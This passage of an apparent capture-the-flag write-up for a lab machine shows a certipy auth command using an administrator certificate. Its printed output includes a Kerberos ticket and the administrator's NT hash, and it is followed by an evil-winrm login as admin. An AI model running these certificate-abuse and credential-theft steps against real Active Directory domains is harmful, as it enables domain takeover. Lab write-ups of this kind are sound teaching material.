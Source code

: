Afterwards, I used `certipy auth` to grab the `administrator` user's hash.

```
$ certipy auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.52.107   
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

Afterwards, I could `evil-winrm` in as the admin:

![](../../.gitbook/assets/htb-manager-image-5.png)

Rooted!